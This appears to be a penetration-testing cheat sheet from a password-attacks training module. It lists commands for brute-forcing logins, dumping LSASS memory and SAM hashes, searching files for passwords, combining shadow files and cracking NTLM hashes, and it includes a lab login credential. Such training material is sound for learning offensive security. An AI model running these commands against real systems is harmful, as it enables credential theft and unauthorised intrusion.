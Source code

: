 ## Connecting to Target

| Command | Description |
|---------|-------------|
| `xfreerdp /v:<ip> /u:htb-student /p:HTB_@cademy_stdnt!` | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol. |
| `evil-winrm -i <ip> -u user -p password` | Uses Evil-WinRM to establish a Powershell session with a target. |
| `ssh user@<ip>` | Uses SSH to connect to a target using a specified user. |
| `smbclient -U user \\\\<ip>\\SHARENAME` | Uses smbclient to connect to an SMB share using a specified user. |
| `python3 smbserver.py -smb2support CompData /home/<nameofuser>/Documents/` | Uses smbserver.py to create a share on a linux-based attack host. |
  
## Password Mutations

| Command | Description |
|---------|-------------|
| `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist` | Uses cewl to generate a wordlist based on keywords present on a website. |
| `hashcat --force password.list -r custom.rule --stdout > mut_password.list` | Uses Hashcat to generate a rule-based word list. |
| `./username-anarchy -i /path/to/listoffirstandlastnames.txt` | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential usernames. |
| `curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\." | tee -a compressed_ext.txt` | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |
  
## Remote Password Attacks

| Command | Description |
|---------|-------------|
| `crackmapexec winrm <ip> -u user.list -p password.list` | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords. |
| `crackmapexec smb <ip> -u "user" -p "password" --shares` | Uses CrackMapExec to enumerate smb shares on a target. |
| `hydra -L user.list -P password.list <service>://<ip>` | Uses Hydra to attempt to crack a password over the specified service. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam` | Uses CrackMapExec to dump password hashes stored in SAM, over the network. |

## Windows Local Password Attacks

| Command | Description |
|---------|-------------|
| `tasklist /svc` | Lists running processes. |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml` | Searches for the string "password" in different file types. |
| `Get-Process lsass` | Displays process information for LSASS. |
| `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full` | Creates an LSASS memory dump file. |
| `pypykatz lsa minidump /path/to/lsassdumpfile` | Extracts credentials from LSASS process memory dump file. |

## Linux Local Password Attacks

| Command | Description |
|---------|-------------|
| `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done` | Finds `.conf`, `.config`, and `.cnf` files. |
| `for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "\#";done` | Finds credentials in `.cnf` files. |
| `find /home/* -type f -name "*.txt" -o ! -name "*.*"` | Searches for text files. |
| `cat /etc/crontab` | Views crontab contents. |

## Cracking Passwords

| Command | Description |
|---------|-------------|
| `hashcat -m 1000 dumpedhashes.txt /usr/share/wordlists/rockyou.txt` | Cracks NTLM hashes using Hashcat. |
| `hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show` | Attempts to crack a single NTLM hash. |
| `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes` | Combines data from passwd.bak and shadow.bk into one file for cracking. |
| `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked` | Cracks unshadowed hashes using a wordlist. |

---
